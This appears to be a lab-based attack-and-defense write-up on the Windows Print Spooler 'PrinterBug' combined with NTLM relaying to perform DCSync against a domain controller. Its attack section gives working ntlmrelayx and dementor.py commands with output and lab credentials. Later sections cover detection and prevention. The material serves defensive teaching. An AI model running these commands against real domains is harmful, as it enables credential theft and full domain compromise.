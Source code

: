 # windows_attack_defense
### Print Spooler & NTLM Relaying Attack
The Print Spooler is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, Lee Christensen found the PrinterBug. The functions *RpcRemoteFindFirstPrinterChangeNotification* and *RpcRemoteFindFirstPrinterChangeNotificationEx* can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the reverse connection will carry authentication information as a TGT. Therefore, any domain user can coerce RemoteServer$ to authenticate to any machine. Microsoft's stance on the PrinterBug was that it will not be fixed, as the issue is "by-design".

The impact of PrinterBug is that any Domain Controller that has the Print Spooler enabled can be compromised in one of the following ways:

1. Relay the connection to another DC and perform DCSync (if SMB Signing is disabled).
1. Force the Domain Controller to connect to a machine configured for Unconstrained Delegation (UD) - this will cache the TGT in the memory of the UD server, which can be captured/exported with tools like Rubeus and Mimikatz.
1. Relay the connection to Active Directory Certificate Services to obtain a certificate for the Domain Controller. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
1. Relay the connection to configure Resource-Based Kerberos Delegation for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

**Attack**

In this attack path, we will relay the connection to another DC and perform DCSync (i.e., the first compromise technique listed). For the attack to succeed, SMB Signing on Domain Controllers must be turned off.

To begin, we will configure NTLMRelayx to forward any connections to DC2 and attempt to perform the DCSync attack:

```
Dennis-44@htb[/htb]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Next, we need to trigger the PrinterBug using the Kali box with NTLMRelayx listening. To trigger the connection back, we'll use Dementor (when running from a non-domain joined machine, any authenticated user credentials are required, and in this case, we assumed that we had previously compromised Bob):

```
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```
Now, switching back to the terminal session with NTLMRelayx, we will see that DCSync was successful:

![dcsync_successful_ntlm](./hashes.png)

### Print Spooler & NTLM Relaying Detection
Exploiting the PrinterBug will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using NTLMRelayx to perform DCSync, no event ID 4662 is generated (as mentioned in the DCSync section); however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller, as we can see below:

![detect ntlm relay dcsync](./detectDCSync_ntlm.png)
A suitable detection mechanism always correlates all logon attempts from core infrastructure servers to their respective IP addresses (which should be static and known).

### Print Spooler & NTLM Relaying Prevention
Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.

Additionally, there is an option to prevent the abuse of the PrinterBug while keeping the service running: when disabling the registry key RegisterSpoolerRemoteRpcEndPoint, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it:

![registry](./registry.png)
